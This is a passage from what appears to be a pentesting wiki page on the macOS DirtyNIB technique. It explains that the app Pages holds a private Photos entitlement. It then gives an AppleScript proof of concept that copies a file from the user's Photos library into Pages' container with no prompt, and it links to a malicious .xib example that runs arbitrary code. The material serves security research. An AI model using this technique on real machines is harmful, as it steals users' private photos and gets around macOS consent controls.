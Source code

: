 
<figure><img src="../../../.gitbook/assets/image (685).png" alt="" width="563"><figcaption></figcaption></figure>

If we look at Pages a bit closer, we see that it has a private entitlement to allow access to a users Photos:

<figure><img src="../../../.gitbook/assets/image (686).png" alt="" width="479"><figcaption></figcaption></figure>

So we can put our POC to the test by **modifying our AppleScript to steal photos** from the user without prompting:

{% code overflow="wrap" %}
```applescript
use framework "Cocoa"
use framework "Foundation"

set grabbed to current application's NSData's dataWithContentsOfFile:"/Users/xpn/Pictures/Photos Library.photoslibrary/originals/6/68CD9A98-E591-4D39-B038-E1B3F982C902.gif"

grabbed's writeToFile:"/Users/xpn/Library/Containers/com.apple.iWork.Pages/Data/wtf.gif" atomically:1
```
{% endcode %}

{% hint style="danger" %}
[**Malicious .xib file that executes arbitrary code example.**](https://gist.github.com/xpn/16bfbe5a3f64fedfcc1822d0562636b4)
{% endhint %}

## Create your own DirtyNIB
